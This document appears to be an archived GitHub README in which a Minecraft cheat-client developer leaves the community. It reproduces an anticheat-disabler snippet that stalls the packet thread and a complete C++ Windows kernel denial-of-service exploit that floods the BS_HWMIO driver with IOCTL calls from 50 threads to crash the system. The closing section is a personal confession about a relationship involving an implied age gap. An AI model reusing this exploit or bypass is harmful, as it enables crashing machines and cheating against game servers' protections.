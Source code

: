 # Everything There Was
As a short disclaimer, I'll talk to people that I actually like. I counted a lot of people as "friends," but if you don't see me adding you on a new alias on Discord, then you were just the average "friend" or I don't trust you enough. Explanations for the incident are at the bottom of this repository, but for now, I want to share with you guys the projects that I sincerely loved the most w/ code snippets.

## SRT
<br>
SRT, what was going to be a community flag-ship multi-server cheat, is now dead. I will obviously work on it, but never will you see a client I develop ever reach the internet again. As much as I say I hated everything I made, truth is, I loved all of it. That god forsaken community just makes me want to hate it, which was the answer I gave to most people. I want to give you, the Minecraft client-development community, some tips as to how things worked. Reminder that I don't know how to format text on GitHub, so bare with me here:

```cpp
// AntiGamingChair Ascension check disabler
case AGC_ASCENSION: {
                if (e.getPacket() instanceof C00PacketKeepAlive) {
                    try {
                        Thread.sleep(5000L);
                    } catch (Exception ex) {
                        ex.printStackTrace();
                    }
                }
                break;
            }
```

One of the best things I have ever added to SRT was the disabler above, as funny as-is, this does work. In the times when the first client I ever made, SkyFall, was in development, I was genuinely more eager to learn more than anyone else. The way I went about it was looking at client source codes, and Dort's Meme Client (the good old days) was what I took a glance at. For the Ghostly disabler, I noticed that he used Thread.sleep to sleep the entire packet thread (FYI he does not do this anymore). Ever since I saw that, I kept it in the back of my mind for the literal years to come. In late 2021-ish, I decide to try and make some form of a MinemenClub movement disabler, and I remembered his code for the Ghostly disabler, to eventually evolve into the most simple anticheat disabler to date, with the exclusion of simply cancelling transactions and keep alives. To explain what it actually does, it sleeps the netty thread for five seconds each time the client sends a C00 (which is every second). With this method, you essentially delay the sending and receiving of ALL packets for the time specified in Thread.sleep. The lesson to be learned from this, is to not be afraid of failure, to not be afraid of what others think, to not be afraid of applying what you learned. I may not have applied this particular lesson, but it will only benefit you. Some of you may be glad that it is over, some of you will be disappointed that it is over. Despite the entirety of the Dortware/Corrosion client community wanting to murder me after an incident, I do highly recommend purchasing their client; it is the best multi-server client that will ever actually release.

## Exploit Development
Some of the other projects that I absolutely loved the most were the Windows kernel exploitation ones. Never have I ever had as much fun as I did doing these. The fact that I am able to completely bug check Windows itself and blame a targeted driver was one of the coolest things to me, and still is to some extent today. It was a huge learning curve, as I jumped from barely any knowledge to going straight into kernel-mode exploit development, but hell I do not regret any of it. An example of the most recent denial-of-service exploit is provided below:

```cpp
#pragma warning(disable : 6273)

#include <Windows.h>
#include <stdio.h>

#define TARGET_DEVICE "\\\\.\\BS_HWMIO"
#define TARGET_IOCTL 0x226050

int main(int argc, char** argv);
DWORD WINAPI ioctl_thread(LPVOID lpParam);

DWORD WINAPI ioctl_thread(LPVOID id)
{
	HANDLE driver_handle = CreateFileA(TARGET_DEVICE, GENERIC_READ | GENERIC_WRITE, 0, 0, OPEN_EXISTING, 0, 0);
	if (driver_handle == (HANDLE)-1)
	{
		printf("\n[-] Unable to obtain a handle to the \"%s\" driver. Handle Value: 0x%p (%d), Error: 0x%x (%d)", TARGET_DEVICE, driver_handle, driver_handle, TARGET_IOCTL, TARGET_IOCTL);
		return 1;
	}

	printf("\n[*] Thread ID %d launched successfully.", (int)id);

	while (1)
	{
		DeviceIoControl(driver_handle, TARGET_IOCTL, 0, 0, 0, 0, 0, 0);
	}

	return 0;
}

int main(int argc, char** argv)
{
	HANDLE driver_handle = CreateFileA(TARGET_DEVICE, GENERIC_READ | GENERIC_WRITE, 0, 0, OPEN_EXISTING, 0, 0);
	char unused = 0;

	printf("[!] Exploit written by uncodable.\n[!] Target Device Driver Symbolic Link: %s\n[!] Target IO Control Code: 0x%x (%d)\n[!] Beginning denial-of-service exploit...", TARGET_DEVICE, TARGET_IOCTL, TARGET_IOCTL);

	if (driver_handle == (HANDLE)-1)
	{
		printf("\n[-] Unable to obtain a handle to the \"%s\" driver. Handle Value: 0x%p (%d), Error: 0x%x (%d)", TARGET_DEVICE, driver_handle, driver_handle, TARGET_IOCTL, TARGET_IOCTL);
		unused = getchar();
		return 1;
	}
	printf("\n[+] Obtained a handle to the \"%s\" driver. Handle Value: 0x%p (%d)\n[!] Spinning up threads, ready to race!", TARGET_DEVICE, driver_handle, driver_handle);
	
	CloseHandle(driver_handle);

	for (int i = 0; i < 50; i++)
	{
		CreateThread(NULL, 0, ioctl_thread, i, 0, NULL);
	}

	printf("\n[!] It's racing time!");
	unused = getchar();

	return 0;
}
```

... mother of god, is probably what you're thinking. You may be thinking that, but I am looking at what I would have considered an art form. The ability to think outside of the box and actually turn it into something like this always fascinated me, as it always came off as little to no one else could (with that obviously being false). What fascinates me even more is the ability to just take complete control over a program's execution flow, redirecting its flow to execute my own code. This right here, is single-handedly the reason why I LOVE exploit development and exploits in general as much as I do. There are a lot of things that I like to do, the examples being Windows kernel research, exploit development, bug check codes and analyzing crash dumps, debugging (somewhat lmao), writing code, and breaking things in the greatest of ways possible. Putting it all together, gives me the ability to make these. These are all outcomes of pure motivation. With that being said, the lesson to be learned from this is to pursue what you've dreamed to be. If you wanted to make a hacked client, you now have the motivation; all there is left is to put in the work. Trust me, all of you guys will make it there. As a simple, friendly reminder, this was not the only kernel exploitation propject that I ever had. There are way more that I've done throughout my time.

Now, for the very last thing that I will cover, and I do not dare add its own specific title bar for, the actual incident that arised. Just because I am addressing this, does not mean I'm coming back to the community; I want to do it because this was the first thing in mind, besides nuking every account I ever owned. Avri, someone that I used to talk to, is someone that I was actually talking to, because I genuinely felt relaxed talking to her. Eventually, the two of us actually began trusting each other enough to literally share info (which I am not leaking), to solidfy trust even further. I will not be the one to get into the details of the things that I said, but I know what I said. Am I necessarily proud of what I said? You're fucking hilarious if you say "yeah," but understanding the target audience for this explanation, it does not bring an expression of surprise. And to be clear, yeah I aware of the age gap, but I am not even sure if I was lied to anymore. The only two standing, valid reasons why I even continued anyway was because of this thought here: "What age difference sounds better? 20 to 30 or 60 to 70?" I would imagine you picked the latter choice. Now, what if someone were to have carried out a relationship quietly for years to come, then finally made it clear when everything is finally in their acceptable places? People would be surprised, but they would not care. It is only when the information is leaked at its earliest stages, and me consisting of having consistent shit-ass luck, things like this do not surprise me anymore. To not get too off-topic, the other reason is the fact that she was not an asshole at first. I think you (the reader) knew me well enough to know how much I hate assholes, so this was astounding to me as-is. Unfortunately, though, the cliche lesson I learned in English class years ago did not click into memory, the classic that everyone knows: "Don't judge a book by its cover." With all of that now detailed, I would rather stray away from sounding like those generic apology videos scattered about, so I will leave you with this: I am sorry that I am lonely, and decided to go out of my way to try and fix it, like I've wanted to do for the majority of my life.

If you need code snippets of SRT, as now I am genuinely willing to provide some (not all), you may ask Cystemz to forward your message to me. I will be telling him to filter out some retarded messages, so I only get the ones that matter to me the most. I'm sorry, but my time in the community is over, while projects like SRT and Rainstorm will thrive forever after. Alternatively, you may now send a friend request to a specific Discord account and I will accept if I feel like doing so. Discord account: try me#0366 (this is not my new alias).

There is one more message I want to leave for you, and is that I will be privating this repository as well later mid-day tomorrow. I do not want to see repositories on my account anymore, so you can download this at your will and expense. What would I do anyway?

<br><br><br>

<div align="center">
	<h3>Information provided by archive.org.</h3>
	<p>Thanks so much to the guy (or crawler) that archived it!</p>

	<img src="https://c.tenor.com/T2lMzW9WdicAAAAC/amogli-edp445.gif">
</div>
